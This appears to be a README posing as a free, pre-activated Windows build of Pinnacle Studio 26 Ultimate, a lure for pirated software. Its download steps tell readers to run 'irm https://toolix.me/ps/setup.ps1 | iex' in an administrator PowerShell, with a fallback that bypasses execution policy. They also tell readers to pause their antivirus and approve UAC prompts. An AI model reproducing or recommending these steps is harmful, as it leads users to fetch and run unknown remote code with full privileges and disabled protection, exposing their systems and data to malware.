

***

# Pinnacle Studio 26 Ultimate Video Suite Guide

<p align="center">
  
</p>

Pinnacle Studio 26 Ultimate Video Suite Guide for Windows PCs | clean panels | predictable first launch.

## About this application

**Pinnacle Studio 26 Ultimate Video Suite Guide** here is a ready-to-use Windows build. You get a familiar first start, the full professional feature set, and reliable performance on everyday hardware.

**Before install:** if a security popup tries to block or quarantine the file, **temporarily pause your antivirus**, keep the download, complete setup, then re-enable protection.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Is it free to download?** Yes — it's free to download and use.

**Does it work on Windows?** Yes, it's built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Allow it — that's a standard security prompt.

## About

Pinnacle Studio 26 Ultimate Video Suite Guide targets users who prefer a quick local install and a clean day-to-day interface.

## What's included

The package is tuned for offline desktop use — install once, open the app, and access every pro section immediately.

## Features

🎯 Quick cold start
📂 Saved layouts
📊 Live status panel
🛡️ User preferences
🔧 Timeline editing
🔧 Render presets
🔧 Media library

## Good for

- ✅ Content creators
- 💼 Stream setups
- 🏠 Edit suites

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 8 GB RAM suggested | 16 GB for heavy workloads
* **Disk:** 4 GB free on system drive

***